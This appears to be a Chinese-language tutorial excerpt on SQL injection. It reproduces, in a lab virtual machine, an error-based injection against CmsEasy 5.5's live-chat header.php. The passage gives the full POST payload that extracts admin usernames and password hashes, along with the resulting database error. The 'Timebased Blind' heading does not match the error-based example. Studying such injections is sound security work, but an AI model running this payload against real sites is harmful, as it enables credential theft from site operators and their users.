

Timebased Blind
下面举个例子：
漏洞复现环境：CmsEasy_5.5_UTF-8
利用过程：
http://www.sysorem.xyz/002/celive/live/header.php
此处演示是把服务器搭在虚拟机，地址为http://10.211.55.34
POST:
xajax=LiveMessage&xajaxargs[0][name]=1',(SELECT 1 FROM (select count(*),concat(floor(rand(0)*2),(select concat(username,0x23,password) from cmseasy_user where groupid=2 limit 1))a from information_schema.tables group by a)b),’’,'','','1','**.**.**.**','2')#
返回：
Incorrect integer value: 'A' for column 'departmentid' at row 1<br /><br />INSERT INTO `cmseasy_chat` (`sessionid`,`name`,`email`,`phone`,`departmentid`,`message`,`timestamp`,`ip`,`status`) VALUES(‘6','A','A','A','A','A','1466856041','10.211.55.2','2')

以上的方式可以认为是基于报错的注入，从返回的信息一目了然。我们知道了表的信息。